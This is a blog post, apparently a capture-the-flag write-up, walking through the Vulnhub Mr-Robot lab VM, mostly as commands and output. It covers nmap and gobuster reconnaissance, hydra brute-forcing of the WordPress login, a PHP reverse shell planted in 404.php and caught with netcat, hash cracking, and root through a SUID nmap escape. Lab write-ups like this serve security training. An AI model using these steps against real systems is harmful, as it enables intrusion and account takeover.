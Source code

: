 ```yaml
---
date: 2020-04-21 18:24:19
layout: post
title: "Mr Robot Vulnhub Walkthrough"
subtitle:
description: Mr-Robot 1 is one of vulnhub's CTF challenges, based on the favored TV series 'Mr Robot' (which is one of the best TV series).
image: /assets/img/uploads/mr-robot-ctf/mr-robot.jpg
optimized_image: /assets/img/uploads/mr-robot-ctf/mr-robot-optimized.jpg
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: mr robot, mr robot vulnhub, mr robot walkthrough, mr robot try hack me, mr robot ctf, infosec articles
---
```


Mr-Robot: 1 is one of vulnhub's CTF challenges, based on the favored TV series 'Mr Robot' (which is one of the best TV series). There are 3 hidden keys in the VM. Our objective is to locate all 3 keys.

We begin our reconnaissance by running a port scan with Nmap, checking default scripts and testing
for vulnerabilities.

```r
m1m3@kali:~$ nmap -sC -sV -oA nmap/mrRobot 192.168.1.7

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 192.168.1.7
Host is up (0.0018s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesnt have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesnt have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.91 seconds

```
<br>
We see a ssh port open and ports 80 and 443 are open. Let's fire up our browser and see what's running on port 80.

<center><br>
<img src="/assets/img/uploads/mr-robot-ctf/port80.png">
</center>

### KEY-1-OF-3

We'll try with some basics first. How about checking out for a robots.txt file?

```r
User-agent: *
fsocity.dic
key-1-of-3.txt
```

BOOM! We just found a dictionary file as well as our first key. Lets grab our first key at <b>http://target_ip/key-1-of-3.txt</b>. Also lets download the dictionary file, it might be useful.

Now let's use gobuster to search for directories we have.

```r
m1m3@kali:~$ gobuster dir -u http://192.168.1.7 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.log

===============================================================                 
Gobuster v3.0.1                                 
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================                                                                                                          
[+] Url:            http://192.168.1.7                 
[+] Threads:        10                 
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt    
[+] Status codes:   200,204,301,302,307,401,403 
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
 Starting gobuster
===============================================================
/images (Status: 301)
/blog (Status: 301)
/sitemap (Status: 200)
/rss (Status: 301)
/login (Status: 302)
/feed (Status: 301)
/video (Status: 301)
/image (Status: 301)
/wp-content (Status: 301)
/admin (Status: 301)
/intro (Status: 200)
/wp-login (Status: 200)
/css (Status: 301)
/license (Status: 200)
/wp-includes (Status: 301)
/js (Status: 301)
/readme (Status: 200)
/robots (Status: 200)
```

We see a lot of directories here. Also, we can see this site is running wordpress. So let's try bruteforcing the <i>/wp-login</i> with the dictionary file we have. Let's fire up burp to intercept the login request. I'll try a random username and password.

<center><br>
<img src="/assets/img/uploads/mr-robot-ctf/burp.png">
</center>

And we got this:<br>
<i>log=admin&pwd=admin&wp-submit=Log+In</i>

I'll be using <i>hydra</i> to fuzz the username. Before that let's sort the dictionary file to remove duplicate words using: 

`$ sort fsocity.dic | uniq > sorted.dic`

```r
m1m3@kali:~$ hydra -V -L sorted.dic -p 4444 192.168.1.7 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid Username' | grep http-post-form

[DATA] attacking http-post-form://192.168.1.7:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid Username
[80][http-post-form] host: 192.168.1.7   login: Elliot   password: 4444
[80][http-post-form] host: 192.168.1.7   login: elliot   password: 4444
[80][http-post-form] host: 192.168.1.7   login: ELLIOT   password: 4444
```
We got the username Elliot, Now we will run the same attack again for the password.

```r
m1m3@kali:~$ hydra 192.168.1.7 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^:incorrect" -l Elliot -P sorted.dic -t 10 -w 30

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-28 15:17:15
[DATA] max 10 tasks per 1 server, overall 10 tasks, 11452 login tries (l:1/p:11452), ~1146 tries per task
[DATA] attacking http-post-form://192.168.1.7:80/wp-login.php:log=^USER^&pwd=^PASS^:incorrect

[80][http-post-form] host: 192.168.1.7   login: Elliot   password: ER28-0652

1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished.
```

Thats it we just gained access to the WordPress platform, with the username Elliot and the password ER28-0652! Now we need to find a way to get a reverse shell. 

### KEY-2-OF-3

We can update a plugin with a php reverse shell to to gain access. I'll be using the php shell from <a href="https://github.com/pentestmonkey/php-reverse-shell">pentest monkey.</a>

<center><br>
<img src="/assets/img/uploads/mr-robot-ctf/404plugin.png">
</center>

I've edited the 404.php Now our code will be executed if we go to any random url that doesn't exists. And we manage to get a reverse shell from the machine.

```r
m1m3@kali:~$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.1.12] from (UNKNOWN) [192.168.1.7] 48942
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 10:50:44 up  2:25,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: cant access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/$ 
```

Now If we try to access the second flag in /home/robot/key-2-of-3.txt, we get an error saying permission denied.

```r
daemon@linux:/home/robot$ wc -c key-2-of-3.txt
wc -c key-2-of-3.txt
wc: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ 
```

Also we have a <i>password.raw-md5</i> file in the home directory. This will be our way in!
This can be cracked using any online md5 decryptor and we the password of robot user as <i>abcdefghijklmnopqrstuvwxyz</i>


Now we can login as user robot using: 
```r
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ wc -c key-2-of-3.txt    
wc -c key-2-of-3.txt
33 key-2-of-3.txt
```

### KEY-3-OF-3

Now we must find a way to root. What about SUID files? Let's see.

```r
robot@linux:~$ find / -user root -perm -4000 -exec ls -ldb {} \; | grep -v proc
< root -perm -4000 -exec ls -ldb {} \; | grep -v proc                        
...
-rwsr-xr-x 1 root root 155008 Mar 12  2015 /usr/bin/sudo
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
-rwsr-xr-x 1 root root 440416 May 12  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
...
```

We can see that nmap is installed in the machine, this can be our way to root. Looking up in the <a href='https://gtfobins.github.io/gtfobins/nmap/'>GTFO Bins,</a> I found we can get root using:

```r
robot@linux:~$ nmap --interactive                                 
nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )  
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh                                                          
!sh                                                             
# whoami
whoami
root
# wc -c /root/key-3-of-3.txt
wc -c /root/key-3-of-3.txt
33 /root/key-3-of-3.txt
```

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/Ty_poe">Tyler Pate.</a>
